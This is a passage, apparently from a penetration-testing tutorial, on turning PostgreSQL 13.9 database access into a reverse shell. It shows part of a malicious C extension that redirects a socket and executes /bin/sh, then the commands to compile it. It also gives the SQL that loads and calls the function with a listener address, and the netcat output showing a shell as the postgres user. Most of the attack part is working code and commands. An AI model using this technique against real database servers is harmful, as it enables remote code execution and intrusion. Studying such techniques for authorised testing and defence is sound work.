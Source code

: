 ```c
    dup2(sock, 2);

    // Start interactive /bin/sh
    execve("/bin/sh", NULL, NULL);

    PG_RETURN_INT32(0);
}

```

Note: This specific exploit targets PostgreSQL running on `Linux`. The process for writing and compiling an exploit for `Windows` is very similar, it just requires different API calls and compiling to a DLL.

Near the beginning of the file, you may notice the line `PG_MODULE_MAGIC`. To avoid issues due to incompatibilities, `PostgreSQL` will only allow you to load extensions which were compiled for the correct (major) version. In this case, the version of `PostgreSQL` that we are targeting is `13.9`.

To compile this extension, we need to first install the `postgresql-server-dev` package for version `13`:

```shell
sudo apt install postgresql-server-dev-13

```

Once it is installed, we can use `gcc` to compile it to a shared library object like so:

```shell
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c

```

The next step is to upload `pg_rev_shell.so` to the webserver. It doesn't matter how you do this ( `COPY` or `Large Objects`), as long as you know the exact path it was uploaded to. Once it's been uploaded, we can run `CREATE FUNCTION` to load the `rev_shell` function from the library into the database and then call it to get a reverse shell.

```shell
bluebird=# CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
CREATE FUNCTION
bluebird=# SELECT rev_shell('127.0.0.1', 443);
server closed the connection unexpectedly
        This probably means the server terminated abnormally
        before or while processing the request.

```

Note: Even though the file is `pg_rev_shell.so`, the extension is dropped in the `PostgreSQL command`.

When you run the second SQL command, it is expected for the database to hang since it's waiting for the function (reverse shell) to finish. If you check your listener, you should receive a reverse shell as `postgres`.

```shell
nc -nvlp 443
listening on [any] 443 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45692
whoami
postgres
exit

```
